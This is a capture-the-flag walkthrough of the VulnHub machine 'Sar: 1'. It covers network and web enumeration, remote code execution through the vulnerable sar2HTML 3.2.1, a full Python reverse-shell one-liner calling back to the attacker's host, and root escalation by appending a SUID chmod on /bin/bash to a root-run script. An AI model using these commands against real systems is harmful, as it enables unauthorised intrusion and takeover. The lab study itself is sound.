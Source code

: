 # Information

- Name: Sar: 1
- Date Release: 15 Feb 2020
- Author: Love
- Series: Sar
- Platform: VulnHub
- Link: https://www.vulnhub.com/entry/sar-1,425/
- Difficulty: Easy

# Write Up
## Enumeration
### Host Discovery 
Host Discovery is performed using [arpScan](https://github.com/Tools) with fast mode. In this case the ip's machine is 10.0.2.12.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:80:b6:4c 10.0.2.3
[*] 08:00:27:f9:32:fa 10.0.2.12
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools).The tool report that there is only one open port (80).

```Console
# python portScanr.py -i 10.0.2.12
[*] Port 80 (http) open
```

## Web 

With _whatweb_ you can enum the versions running on the web server. Nothing interesting, an Apache 2.4.29 and Ubuntu.

```Console
# whatweb http://10.0.2.12
http://10.0.2.12 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.0.2.12], Title[Apache2 Ubuntu Default Page: It works]
```
The _index.html_ is the default page of Apache.
![Apache](images/apache.png)

Let's try fuzzing with gobuster to discover directories and files.

```Console
# gobuster dir -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 40 -u http://10.0.2.12
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.12
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2022/09/01 18:07:17 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/robots.txt           (Status: 200) [Size: 9]
/phpinfo.php          (Status: 200) [Size: 95357]
/server-status        (Status: 403) [Size: 274]

===============================================================
2022/09/01 18:09:00 Finished
===============================================================
```

In _robots.txt_ you can see "sar2HTML", if add it to the url you are going to see another page.
![robots](images/robots.png)
![Sar2HTML](images/sar2HTML.png)

## Exploitation

Sar2HTML is a plotting tools for system stats. The version running is 3.2.1, that is vulnerable to [RCE](https://www.exploit-db.com/exploits/47204). Lets try get a reverse shell via RCE with the reverse shell:

```Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![rce](images/rce.png)

## Privilege Escalation

Lets monitorize the machine with pspy. You can see that in /var/www/html/ there are two scripts executing: _write.sh_ and _finally.sh_

```Console
bash-4.4$ cat finally.sh write.sh
#!/bin/sh

./write.sh

#!/bin/sh

touch /tmp/gateway
```
The _finally.sh_ is executing _write.sh_ by root. You can assign SUID perm to /bin/bash to be root.

```Console
bash-4.4$ echo "chmod u+s /bin/bash" >> write.sh
bash-4.4$ cat write.sh
#!/bin/sh

touch /tmp/gateway
chmod u+s /bin/bash
bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  7  2019 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt /home/love/Desktop/user.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
427a7e47deb4a8649c7cab38df232b52
```


